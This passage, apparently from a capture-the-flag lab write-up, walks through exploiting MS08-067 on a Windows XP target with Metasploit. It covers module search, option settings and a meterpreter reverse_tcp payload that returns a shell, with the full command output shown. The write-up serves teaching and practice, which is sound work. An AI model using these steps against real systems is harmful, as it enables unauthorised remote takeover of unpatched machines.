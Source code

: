 ## Exploitation

### MS08-067 (Using Metasploit)

Let’s find the exploit using [__Metasploit__](https://www.metasploit.com/){:target="_blank"}.

```bash
 msf6 > search ms08-067
 Matching Modules
 #  Name                                 Disclosure Date  Rank   Check  Description
    ----                                 ---------------  ----   -----  -----------
 0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service     
                                                                        Relative Path Stack Corruption
```

[__MS08-067__](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi/){:target="_blank"} is a remote code execution vulnerability that allows attackers to take complete control of an 
affected system remotely. On Microsoft Windows 2000-based, Windows XP-based, and Windows Server 2003-based 
systems, an attacker could exploit this vulnerability over RPC without authentication and could run 
arbitrary code. So we will use “use 0” to select the exploit and change the options into it.

```bash
 sf6 > use 0
msf6 exploit(windows/smb/ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
Name     Current Setting  Required  Description
----     ---------------  --------  -----------
RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'
RPORT    445              yes       The SMB service port (TCP)
SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Payload options (windows/meterpreter/reverse_tcp):
 Name      Current Setting  Required  Description
 ----      ---------------  --------  -----------
 EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
 LHOST     192.168.232.139  yes       The listen address (an interface may be specified)
 LPORT     4444             yes       The listen port
 
 msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.129.1.111
 RHOSTS => 10.129.1.111
 msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST tun0
 LHOST => 10.10.14.44
 msf6 exploit(windows/smb/ms08_067_netapi) > exploit

 meterpreter > shell
 Process 1916 created.
 Channel 1 created.
 Microsoft Windows XP [Version 5.1.2600]
 (C) Copyright 1985-2001 Microsoft Corp.
 C:\WINDOWS\system32>
```
To know about RHOSTS, LHOST, RPORT, and LPORT take reference from my [__Lame__](https://samh4cks.github.io/lame/#){:target="_blank"} writeup. With this exploit, 
we get the shell. Now, let’s move to another exploit (MS17-010).
